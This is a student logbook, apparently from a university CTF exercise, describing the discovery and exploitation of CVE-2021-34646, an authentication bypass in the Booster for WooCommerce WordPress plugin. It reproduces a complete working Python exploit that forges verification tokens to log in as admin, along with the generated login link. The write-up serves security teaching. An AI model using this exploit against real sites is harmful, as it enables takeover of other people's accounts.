 # LOGBOOK3 - Wordpress CVE

Scrolling throw the website we were able to get answers to the 3 topics that were sugested:

- Wordpress version:
    - WordPress  - 5.8.1

- Plugins versions:
    - WooCommerce plugin - 5.7.1
    - Booster for WooCommerce plugin - 5.4.3

- Possible users:
    - admin
    - Orval Sanford

The next step was descovering the CVE related to these topics.
We were able to find, in the website: https://www.exploit-db.com/, the answer to the first problem, CVE-2021-34646.

Here, we were able to find this python script:
```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests, sys, hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/":  # URL needs trailing /
    url = url + "/"

verify_url = url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
    print("status code != 200")
    print(r.headers)
    sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]


date = r.headers["Date"]
unix = email_time_to_timestamp(date)


def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")


printBanner()

for i in range(
        3):  # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
    hash = hashlib.md5(str(unix - i).encode()).hexdigest()
    print(f"{W}#" + str(i) + f" link for hash {R}" + hash + f"{W}:")
    token = '{"id":"' + id + '","code":"' + hash + '"}'
    token = base64.b64encode(token.encode()).decode()
    token = token.rstrip("=")  # remove trailing =
    link = url + "my-account/?wcj_verify_email=" + token
    print(link + f"\n{RST}")
```

Running this code with: `http://ctf-fsi.fe.up.pt:5001 1` being the first argument the link to the website and the second the user id (in this case 1=admin), we got this output: `http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNjhlZmI1YzNjMTUxOWM5NDVkYWEyMTMxZTZlMjI2NGUifQ`.

By clicking on this link, it led us to the website we were working on, but this time we were logged in as an admin.

To finish our CTF, we clicked on the link able on moodle `http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php` where we had a message with the flag:

`flag{please don't bother me}`.

